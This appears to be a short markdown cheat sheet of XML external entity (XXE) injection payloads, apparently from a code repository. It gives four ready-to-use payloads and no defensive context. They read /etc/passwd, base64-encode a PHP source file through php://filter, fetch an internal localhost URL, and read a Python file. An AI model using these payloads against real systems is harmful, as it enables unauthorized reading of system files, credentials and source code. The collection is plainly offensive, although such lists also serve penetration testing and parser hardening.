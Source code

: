# XML Injection


### Read etc/passwd without encoding
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<post>
	<poster>vbvebre</poster>
	<content>&xxe;</content>
</post>
```

### Read a file and base64 encode it for display

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY c SYSTEM "php://filter/read=convert.base64-encode/resource=view_order.php">
]>
<order>
    <item>
        <name>&c;</name>
        <amount>14</amount>
    </item>
</order>
```

### Read a file from a URL 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1/secret"> ]>

<post>
	<poster>vbvebre</poster>
	<content>&xxe;</content>
</post>
```


### Read a python file

```xml
<xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:feed.py'>]>
<test>
<Author>&test;</Author>
<Subject>test</Subject>
<Content>test</Content>
</test>
```